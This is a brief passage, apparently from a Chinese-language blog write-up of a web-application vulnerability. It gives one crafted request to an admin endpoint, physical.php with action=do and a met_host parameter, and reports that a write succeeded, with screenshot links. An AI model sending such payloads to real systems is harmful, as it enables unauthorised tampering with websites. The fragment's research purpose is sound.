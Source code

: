 然后构造如下payload
```
admin/app/physical/physical.php?action=do&met_host=127.0.0.1
```
成功写入 
![](http://blog.kingkk.com/wp-content/uploads/2018/05/02afc33c5d687f744e7cf8a31d0a7a7f.png)